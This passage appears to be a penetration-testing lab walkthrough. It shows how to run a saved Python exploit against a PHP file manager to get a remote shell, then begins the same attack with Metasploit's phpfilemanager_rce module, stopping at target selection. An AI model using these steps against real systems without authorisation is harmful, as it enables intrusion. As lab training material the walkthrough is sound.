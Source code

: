 To confirm whether Python is installed, open PowerShell and type in **"python3.11"** This action should initiate the Python 3.11 console.
![[Pasted image 20231204012938.png]]

To install the required Python library, we will use the command _pip install_. However, before doing so, let's navigate to the desktop directory where the exploit has been saved.
![[Pasted image 20231204013207.png]]

Now to install the library: ~
```powershell
pip install requests 
```

now lets run the exploit by entering the following: ~ 
```powershell
python exploit.py 
```

just like that we have a shell. 
![[Pasted image 20231204013637.png]]

Now, we can execute commands such as *ipconfig* to observe the existence of a pseudo command prompt: ~
![[Pasted image 20231204014027.png]]

## 2.2 Using Metasploit to get a command prompt
----
Now lets do the same thing again but using Metasploit to get the command prompt.

- Start the **Kali Linux** machine and open a **terminal**
- Start Metasploit with `msfconsole`
- When Metasploit starts use the search command to find **phpfilemanager**
```bash
search phpfilemanager
```
- Set it so that the phpfilemanager exploit is selected and ready to deploy
```bash
use exploit/multi/http/phpfilemanager_rce
```

![[Pasted image 20231204015645.png]]
- Now lets set up the exploit with the port and server IP 
```bash
show options
```

![[Pasted image 20231204015721.png]]
- As you can see from the above screenshot the exploit target is set to Unix we need to change this to Windows. 
```bash
show targets
```
